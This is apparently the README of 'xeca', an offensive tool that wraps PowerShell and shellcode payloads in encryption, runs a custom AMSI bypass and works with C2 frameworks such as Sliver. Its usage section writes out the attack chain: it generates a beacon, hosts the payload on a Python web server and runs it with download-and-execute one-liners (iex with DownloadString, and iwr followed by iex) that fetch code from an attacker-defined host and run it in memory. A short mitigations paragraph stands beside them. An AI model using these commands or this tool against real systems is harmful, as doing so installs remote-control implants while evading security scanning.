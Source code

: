 # xeca
xeca is a project that creates encrypted PowerShell payloads for offensive purposes.

Creating position independent shellcode from DLL files is also possible.

Note: Please place your custom AMSI bypass in `src/assets/amsi-bypass.ps1`.

## Table of Contents
- [xeca](#xeca)
  * [Install](#install)
  * [How It Works](#how-it-works)
  * [Mitigations](#mitigations)
  * [Examples](#examples)
    + [Covenant](#covenant)
    + [Empire](#empire)
    + [Merlin](#merlin)
    + [Sliver](#sliver)
  * [Acknowledgements](#acknowledgements)
  * [License](#license)

## Install
Firstly ensure that rust is [installed](https://www.rust-lang.org/tools/install), then build the project with the following command:
```
cargo build
```

## How It Works
1. Identify and encrypt the payload. Load encrypted payload into a powershell script and save to a file named "launch.txt"
3. The key to decrypt the payload is saved to a file named "safe.txt"
3. Execute "launch.txt" on a remote host
   - The script will call back to the attacker defined web server to retrieve the decryption key "safe.txt"
   - Decrypt the payload in memory
   - Execute the intended payload in memory

## Mitigations
If users must have access to programs such as powershell.exe, consider minimising security risks with [Just Enough Administration](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/overview?view=powershell-7) and [PowerShell Logging](https://docs.microsoft.com/en-us/powershell/scripting/windows-powershell/wmf/whats-new/script-logging?view=powershell-7). Application control policies can be deployed via a whitelisting technology such as [AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview).

## Usage
### Sliver
1. Generate a shellcode beacon -> generate beacon --format shellcode --os windows --mtls $IP$
2. Use xeca to encrypt the payload -> xeca shellcode --shellcode $shellcode$.bin --url http://$pythonhttpserver$
3. Create a python http server with the port that you provided to xeca -> python -m http.server 8080
4. Use one of the following ways to run the payload:
    - Fileless -> iex(New-Object Net.WebClient).DownloadString("http://$pythonhttpserver$/launch.txt")
    - Run from disk -> iwr "http://$pythonhttpserver$" -OutFile launch.txt; iex(cat .\launch.txt)

The launch.txt file contains the encrypted payload, it will first run an amsi bypass, and then it will load the encrypted payload, after that it will call back to the python server and grab the "safe.txt" file which will decrypt the payload in memory.

## Acknowledgements
This tool would not be possible without the sharing of knowledge and information. Ideas, snippets and code from the following authors should be acknowledged:  
[@monoxgas](https://github.com/monoxgas)  
[@H0neyBadger](https://github.com/H0neyBadger)  
[@TheWover](https://github.com/TheWover)  
[@stephenfewer](https://github.com/stephenfewer)  
[@dismantl](https://github.com/dismantl)  
[@tandasat](https://github.com/tandasat)  
[@cobbr](https://github.com/cobbr)  

## License
xeca is licensed under [GPLv3](https://www.gnu.org/licenses/gpl-3.0.en.html), some sub-components may have separate licenses. See their respective references in this project for details.
